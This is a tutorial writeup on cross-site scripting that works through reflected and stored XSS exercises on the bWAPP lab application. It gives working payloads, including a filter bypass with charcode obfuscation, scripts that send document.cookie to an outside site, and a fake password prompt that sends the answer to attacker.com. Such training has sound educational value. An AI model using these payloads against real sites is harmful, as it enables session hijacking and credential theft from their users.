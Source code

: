 #Cross Site Scripting (XSS)
XSS is the most common web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. The three known types of XSS vulnerabilities that we will cover are:
* Reflected XSS
* Stored XSS
* DOM Based XSS

#Javascript
The magic behind XSS attacks is the Javascript language. Javascript is the browser's language, and as such, whenever you have a webpage, you try to use javascripts to make it do what you want it do it. 
To demonstrate this, you can simply open up your favorite browser (I prefer chrome) and access the console in the developer tools. *In chrome, just right click anywhere, and select inspect. Now click the console tab.*
In the console you can execute any piece of javascript you want to for testing purposes. However, it won't actually impact anyone else. Try executing the following:
```
console.log('Does this even work?');
alert('I am a bAd@$$ H@cK3r');
```

##Reflected XSS
Let's get started with BwaPP's 'XSS - Reflected (GET)/(POST)' exercise.
The form on the page asks us to provide a first and last name. It takes what you enter in those fields and prints into out on the page. What we can do with this is try to get that output to compromise other users using javascript.

In these exercises we are going to be using GET request exploits. So we will edit the inputs directly in the GET url. 

Let's first test to see whether it will render any javascript we enter into the field. Enter the following into the last name field. You can enter anything you want into the first name field for now. Add the following to the end of your GET url.
```
?firstname=simeon&lastname=kakpovi<script>alert("hello")</script>
```
You should get a popup window on your screen with the word "hello".

If this works, it means the page will evaluate whatever javascript we submit inthe form. We can use that to steal an authenticated user's credentials for example.
```
kakpovi<script>alert(document.cookie)</script>
```
Suppose the developed put something in place to prevent us from submitting javascript elements we can have the page evaluate our command in javascript based on each character's byte value.
```
?firstname=simeon&lastname
=<script>alert(String.fromCharCode(77,77,69,32,114,48,99,107,115,33))</script>
```

We can also redirect the user to different website of our desire. 
```
?firstname=simeon&lastname=
<script>window.location= "http://www.simeonkakpovi.com";</script>
```
Although this may seem benign, it really gets malicious when you send the user's credentials also with it. The receiving website could parse the credentials without you ever knowing.

```
<script>window.location="http://simeonkakpovi.com?cookie="+document.cookie;</script>
```

Alternatively, we can paste a link or image on the page which would take some action when the user clicks or hovers over it. 

```
<a onmouseover='alert("you’ve been pwned")’>Kakpovi</a>
```


##Stored XSS

In a stored XSS attacked, the input is actually displayed to all other users that visit the site. Take for example a blog, or a comment section. 

The following examples could be used to compromise visiting users.

```
<a onmouseover="alert('just kidding, youve been pwned')">Hello I am just an innocent comment</a>
```

```
<a href=“youtube.com” onmouseover='window.location="http://simeonkakpovi.com?content="+document.cookie'>Hello I am just an innocent comment</a>
```

```
<script>alert("We need your password!");password=prompt("Enter password...","");document.location="http://attacker.com/catch.php?password="+encodeURI(password);</script>
```